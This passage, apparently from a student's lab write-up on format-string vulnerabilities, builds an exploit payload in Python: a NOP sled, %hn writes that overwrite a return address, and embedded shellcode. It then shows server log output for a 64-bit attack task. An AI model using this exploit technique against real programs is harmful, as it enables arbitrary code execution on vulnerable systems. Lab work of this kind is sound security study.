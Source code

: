 ```python
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_32

############################################################
#
#    Construct the format string here
# 
############################################################
target_addr = 0xffffd4b8 + 0x4 # ebp+4
content[0:4] = target_addr.to_bytes(4, byteorder='little')
content[4:8] = ("abcd").encode("latin-1")
content[8:12] = (target_addr + 2).to_bytes(4, byteorder='little')

# 0xffffd590 + 12 + len(fmt) (270) = 0xffffd6aa

s = "%.8x"*62 + "%.54446x" + "%hn" + "%.10581x" + "%hn"
fmt = (s).encode("latin-1")
content[12:12+len(fmt)] = fmt

# Put the shellcode somewhere in the payload
start = 12+len(fmt)        # Change this number
content[start:start + len(shellcode)] = shellcode

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(content)

```

![image-20220220114846529](Format String.assets/image-20220220114846529.png)

## Task 5: Attacking the 64-bit Server Program

```
server-10.9.0.6 | Got a connection from 10.9.0.1
server-10.9.0.6 | Starting format
server-10.9.0.6 | The input buffer's address:    0x00007fffffffe2d0
server-10.9.0.6 | The secret message's address:  0x0000555555556008
server-10.9.0.6 | The target variable's address: 0x0000555555558010
server-10.9.0.6 | Waiting for user input ......
server-10.9.0.6 | Received 6 bytes.
server-10.9.0.6 | Frame Pointer (inside myprintf):      0x00007fffffffe210
server-10.9.0.6 | The target variable's value (before): 0x1122334455667788
server-10.9.0.6 | hello
server-10.9.0.6 | The target variable's value (after):  0x1122334455667788
server-10.9.0.6 | (^_^)(^_^)  Returned properly (^_^)(^_^)


```
